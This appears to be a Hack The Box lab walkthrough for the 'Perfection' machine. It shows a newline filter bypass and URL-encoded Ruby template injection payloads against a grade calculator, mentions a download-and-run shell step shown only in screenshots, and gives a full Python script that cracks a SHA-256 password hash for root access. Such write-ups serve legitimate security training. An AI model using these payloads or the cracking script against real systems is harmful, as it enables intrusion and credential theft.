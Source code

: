 

# Foothold 

we see their is only ssh and the web. 

in the web we see the calculator for the Grade Calculator

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/perfcetion/Screenshots/Pasted%20image%2020240303175253.png)

after testing we see we might get some kind of os command injection

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/perfcetion/Screenshots/Pasted%20image%2020240303175336.png)


looking into `WEBrick` a little bit it might be ruby or some kind but not sure. we try some filter bypass and found `%0a` will kinda break it and we are able to use more characters to get a working payload 

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/perfcetion/Screenshots/Pasted%20image%2020240303180142.png)

to make a payload we find its a `SSTI` and use a payload for that.

after looking we found this payload 

```
<%= 7*7 %>
```

this one is just to test `SSTI`

but i dont work

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/perfcetion/Screenshots/Pasted%20image%2020240303180520.png)

we might need to encode some stuff.

we encode the start and the end of the payload

after encoding

```
<%25= 7*7 %25>
```


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303180629.png)

and we got 49 meaning it works. now we can use `system` to execute commands

we make a payoad to download and execute a bash script to get shell

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/perfcetion/Screenshots/Pasted%20image%2020240303180800.png)


and we have shell


![image]([https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303180830.png](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/perfcetion/Screenshots/Pasted%20image%2020240303180830.png))


# Privesc


after enumerating the box we a message from the mail

```
cat /var/mail/susan

Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

ah so our password will be `susan_nasus<random number>`

inside our users home folder we see the folder `Migration` that as a file called `pupilpath_credentials.db`

after downloading it we see its the hashes for the users

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/perfcetion/Screenshots/Pasted%20image%2020240303181123.png)

so now we have a hash of the user susan. we now get a script that will crack this hash since we know what the password will look like

script: 

```
import hashlib

def generate_password(firstname):
    firstname_lower = firstname.lower()
    firstname_backwards = firstname_lower[::-1]
    for i in range(1, 1000000001):
        password = f"{firstname_lower}_{firstname_backwards}_{i}"
        hashed_password = hashlib.sha256(password.encode()).hexdigest()
        yield password, hashed_password

def crack_hash(hash_to_crack, firstname):
    for password, hashed_password in generate_password(firstname):
        if hashed_password == hash_to_crack:
            return password
    return None

# Hash provided by the user
hash_to_crack = "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f"

# Firstname of the user
firstname = "Susan"

# Attempt to crack the hash
cracked_password = crack_hash(hash_to_crack, firstname)

if cracked_password:
    print(f"Hash cracked! Password is: {cracked_password}")
else:
    print("Unable to crack the hash.")

```

after a while we see the hash was cracked

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/perfcetion/Screenshots/Pasted%20image%2020240303181749.png)


we now use that password and login as root

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/perfcetion/Screenshots/Pasted%20image%2020240303181448.png)
